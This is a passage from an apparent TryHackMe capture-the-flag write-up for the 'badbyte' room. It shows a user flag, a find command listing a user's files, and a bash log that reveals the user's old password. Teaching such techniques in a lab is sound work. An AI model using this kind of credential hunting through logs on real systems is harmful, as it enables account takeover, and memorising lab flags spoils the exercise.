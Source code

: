User flag: `THM{227906201d17d9c45aa93d0122ea1af7}`

# Privilege Escalation

## What is the user's old password?

Searching for files owned by `cth` will show a long list of files, with an interesting `bash.log` file:

~~~
cth@badbyte:/home$ find / -type f -user cth -exec ls {} + 2>/dev/null
find / -type f -user cth -exec ls {} + 2>/dev/null
/home/cth/.bash_logout
/home/cth/.bashrc
/home/cth/.cache/motd.legal-displayed
/home/cth/.profile

[REDACTED]

/usr/share/wordpress/wp-snapshots/robots.txt
/usr/share/wordpress/xmlrpc.php
/var/log/bash.log <-------------------------------- interesting!
~~~

Having a look at this file will show the last commands entered by the user, who typed his old password as a command, by mistake:

~~~
cth@badbyte:/home$ cat /var/log/bash.log
cat /var/log/bash.log
Script started on 2021-03-23 21:05:06+0000
cth@badbyte:~$ whoami
cth
cth@badbyte:~$ date
Tue 23 Mar 21:05:14 UTC 2021
cth@badbyte:~$ suod su

Command 'suod' not found, did you mean:

  command 'sudo' from deb sudo
  command 'sudo' from deb sudo-ldap

Try: sudo apt install <deb name>

cth@badbyte:~$ G00dP@$sw0rd2020 <----------------------- old password
G00dP@: command not found
cth@badbyte:~$ passwd
Changing password for cth.
(current) UNIX password: 
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully

[redACTED]
~~~

